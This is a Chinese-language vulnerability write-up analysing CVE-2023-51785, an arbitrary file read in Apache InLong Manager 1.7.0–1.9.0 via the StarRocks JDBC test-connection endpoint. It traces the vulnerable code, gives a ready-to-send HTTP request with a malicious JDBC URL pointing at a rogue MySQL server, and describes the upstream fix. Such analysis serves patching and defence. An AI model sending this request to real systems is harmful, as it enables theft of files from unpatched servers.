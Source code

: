 

# Apache InLong Manager Arbitrary File Read Vulnerability(CVE-2023-51785) 漏洞分析 - 先知社区

Apache InLong Manager Arbitrary File Read Vulnerability(CVE-2023-51785) 漏洞分析

- - -

# 漏洞描述

Apache InLong 中的不受信任数据漏洞。此问题影响 Apache InLong：从 1.7.0 到 1.9.0，攻击者可以使用 mysql 驱动程序进行任意文件读取攻击。建议用户升级到 Apache InLong 的 1.10.0 或 cherry-pick \[1\]来解决这个问题。

# 漏洞版本

从 1.7.0 到 1.9.0

# 环境搭建

[How to Build | Apache InLong](https://inlong.apache.org/docs/quick_start/how_to_build)  
[Standalone | Apache InLong](https://inlong.apache.org/docs/deployment/standalone)

# 代码分析

看修复代码定位到：StarRocksDataNodeOperator.testConnection  
溯源上去是：org.apache.inlong.manager.web.controller.DataNodeController#testConnection  
一直调用到：org.apache.inlong.manager.service.node.starrocks.StarRocksDataNodeOperator#testConnection

[![](assets/1706496716-41041071aef1f8738606adf62e978834.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172555-bdd3de6c-bb63-1.png)

org.apache.inlong.manager.service.resource.sink.starrocks.StarRocksJdbcUtils#getConnection

[![](assets/1706496716-ff33359a3a81260f6f5a4366f6a12116.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172604-c3105630-bb63-1.png)

这里进行了判断，不为空且 STAR\_ROCKS 也是调用的 mysql

[![](assets/1706496716-ba4acb33cefddbdde9be419279c63cdc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172612-c7cccad2-bb63-1.png)

判断结束后直接反射然后 getConnection 造成 jdbc attck

# 漏洞复现

使用[GitHub - rmb122/rogue\_mysql\_server: A rouge mysql server supports reading files from most mysql libraries of multiple programming languages.](https://github.com/rmb122/rogue_mysql_server)  
本地搭建 evil mysql server，然后发送请求

```plain
POST /inlong/manager/api/node/testConnection HTTP/1.1
Host: 172.18.178.167:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: application/signed-exchange;v=b3;q=0.7,*/*;q=0.8
Purpose: prefetch
Referer: http://172.18.178.167:8083/inlong/manager/doc.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Cookie:JSESSIONID=42127a67-091a-464d-b340-2ff7663a6ee8;
Content-Type: application/json
Content-Length: 276

{
  "description": "",
  "displayName": "a",
  "extParams": "a",
  "id": 0,
  "inCharges": "",
  "name": "fileread",
  "token": "",
  "type": "STARROCKS",
  "url": "jdbc:mysql://172.18.176.1:3308/test?allowLoadLocalInfile=true",
  "username": "a",
  "version": 0
}
```

成功读取文件

[![](assets/1706496716-3c7b134530975b660e9b11d5b92566ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172655-e1914e66-bb63-1.png)

# 漏洞修复

[\[INLONG-9330\]\[Manager\] Add encoding check to the StarRocks JDBC URL by hnrainll · Pull Request #9331 · apache/inlong · GitHub](https://github.com/apache/inlong/pull/9331)  
将编码检查添加到 StarRocks JDBC URL，在 mysql JDBC URL 的 URL 编码中添加检查。

[![](assets/1706496716-8035d294f4437472e6c38e886244b6a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172717-eec2be4e-bb63-1.png)

限制了 mysql 的文件读取

[![](assets/1706496716-1d79f570c722dd801955f228e0199279.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125172729-f5eb4204-bb63-1.png)
